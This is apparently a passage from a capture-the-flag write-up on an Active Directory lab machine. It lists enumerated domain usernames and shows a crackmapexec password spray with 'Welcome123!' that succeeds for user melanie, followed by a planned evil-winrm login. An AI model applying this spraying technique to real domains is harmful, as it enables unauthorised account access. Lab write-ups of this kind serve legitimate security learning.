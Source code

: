 ```bash
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]

Administrator 
Guest 
krbtgt 
DefaultAccount 
ryan 
marko 
sunita 
abigail 
marcus 
sally 
fred 
angela 
felicia 
gustavo 
ulf 
stevie 
claire 
paulo 
steve 
annette 
annika 
per 
claude 
melanie 
zach 
simon 
naoki 
```
{% endcode %}

We have a password lf `Welcome123!` and a username list, so password spraying with `crackmapexec` is next.&#x20;

```bash
$ crackmapexec smb 10.129.85.209 -u users -p 'Welcome123!'
SMB         10.129.85.209   445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
```

We have a user `melanie` who has the weak password. We can login as this user using `evil-winrm`.

